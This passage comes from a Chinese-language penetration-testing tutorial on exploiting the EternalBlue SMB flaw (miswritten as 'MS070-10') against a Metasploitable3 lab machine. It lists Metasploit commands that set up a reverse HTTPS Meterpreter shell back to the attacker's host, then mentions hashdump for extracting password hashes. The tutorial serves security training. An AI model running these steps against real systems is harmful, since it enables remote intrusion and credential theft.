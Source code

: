 图 10.14：被攻陷服务器的系统信息

我们将在本节中探索的第二个漏洞是 MS070-10，它通过利用 EternalBlue 漏洞在 2017 年 4 月引发了全球范围的 WannaCry 勒索病毒。该漏洞存在于 Windows 中 SMB 版本的实现方式，具体来说，是 SMBv1 和通过 TCP 端口`445`及端口`139`传输 NBT 的方式——这用于安全地共享数据。

成功的利用会导致攻击者能够在远程系统上运行任意代码。尽管这个漏洞较为陈旧，但许多组织仍然不得不依赖一些遗留系统。这可能是由于各种原因，如 OEM 依赖性，或是业务本身无法摆脱旧系统，比如 Windows XP、7、2003、Windows 2008 和 Windows 2008 R2。为了展示如何轻松利用这些遗留系统，我们将利用 Metasploitable3（运行在`10.10.10.4`）进行该漏洞利用，通过在 Kali 终端中设置以下内容：

```
sudo msfconsole 
search eternal
use exploit/windows/smb/ms17_010_eternalblue 
set payload windows/meterpreter/reverse_https
set rhosts <your Exchange server IP>
set lhost <Your Kali IP>
set lport <You kali port> 
```

![](img/B17765_10_15.png)

图 10.15：使用 Metasploit 利用 EternalBlue 漏洞

最后，漏洞利用应该为我们提供类似于之前漏洞利用中看到的 Meterpreter Shell。`hashdump`命令应该显示所有用户名和密码哈希值，如*图 10.16*所示：
